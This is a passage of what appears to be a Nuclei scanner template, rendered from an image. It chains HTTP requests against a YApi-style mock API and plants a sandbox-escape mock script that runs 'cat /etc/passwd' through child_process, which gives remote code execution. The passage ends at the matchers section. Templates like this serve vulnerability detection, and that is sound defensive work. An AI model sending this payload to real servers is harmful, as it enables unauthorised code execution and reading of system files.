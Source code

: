 ```
      - | # REQUEST 3
        POST /api/project/add HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json;charset=UTF-8

        {"name":"{{randstr}}","basepath":"","group_id":"{{group_id}}","icon":"code-o","color":"cyan","project_type":"private"}

      - | # REQUEST 4
        GET /api/project/get?id={{project_id}} HTTP/1.1
        Host: {{Hostname}}

      - | # REQUEST 5
        POST /api/interface/add HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json;charset=UTF-8

        {"method":"GET","catid":"{{project_id}}","title":"{{randstr_1}}","path":"/{{randstr_1}}","project_id":{{project_id}}}

      - | # REQUEST 6
        POST /api/plugin/advmock/save HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json;charset=UTF-8

        {"project_id":"{{project_id}}","interface_id":"{{interface_id}}","mock_script":"const sandbox = this\r\nconst ObjectConstructor = this.constructor\r\nconst FunctionConstructor = ObjectConstructor.constructor\r\nconst myfun = FunctionConstructor('return process')\r\nconst process = myfun()\r\nmockJson = process.mainModule.require(\"child_process\").execSync(\"cat /etc/passwd\").toString()","enable":true}

      - | # REQUEST 7
        GET /mock/{{project_id}}/{{randstr_1}} HTTP/1.1
        Host: {{Hostname}}

    cookie-reuse: true
    extractors:
      - type: regex
        name: group_id
        group: 1
        internal: true
        part: body
        regex:
          - '"_id":([0-9]+),"group_name"'

      - type: regex
        name: interface_id
        group: 1
        internal: true
        part: body
        regex:
          - '"req_body_form":\[\],"_id":([0-9]+)'

      - type: regex
        name: project_id
        group: 1
        internal: true
        part: body
        regex:
          - '"tag":\[\],"_id":([0-9]+)'

    matchers-condition: and
    matchers:
```